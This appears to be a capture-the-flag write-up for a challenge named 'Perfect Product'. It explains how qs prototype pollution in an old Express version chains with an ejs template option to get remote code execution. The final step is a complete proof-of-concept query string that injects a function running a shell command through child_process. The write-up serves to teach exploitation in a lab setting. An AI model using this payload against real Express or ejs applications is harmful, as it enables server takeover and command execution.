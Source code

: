 ## Perfect Product

1. The app uses old Express version which depends on `qs` vulnerable to [Prototype Poisoning](https://security.snyk.io/vuln/SNYK-JS-QS-3153490)
2. Thanks to that, with just a query it's possible to pass an object that is also an array: `?q[__proto__][]=1&q[abc]=asd`
3. The app splits the array to placeholders `_0`, `_1`, ... and then passes that to `render('product', data)`
4. An attacker can pollute data with arbitrary properties via `?q[__proto__][]=1&q[_proto__][property]=smth`, because `_proto__` will become `__proto__` and it allows for another level of local pollution.
5. There is a 0day in [ejs](https://github.com/mde/ejs/blob/main/lib/ejs.js#L637) that allows to get RCE. (Similar to [CVE-2022-29078](https://eslam.io/posts/ejs-server-side-template-injection-rce/))
6. `/product` is cached, so the poc needs to bypass that with: `v[_proto__][settings][view%20cache]=&v[_proto__][cache]=`
7. Full PoC: `product?name=watch&v[__proto__][]=1&&v[1]&v[2]&v[3]&v[4]&v[5]&v[_proto__][settings][view%20options][escape]=function(){return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)};&v[_proto__][settings][view%20options][client]=1&v[_proto__][settings][view%20cache]=&v[_proto__][cache]=`


8*. XSS is intended, it's a troll vulnerability.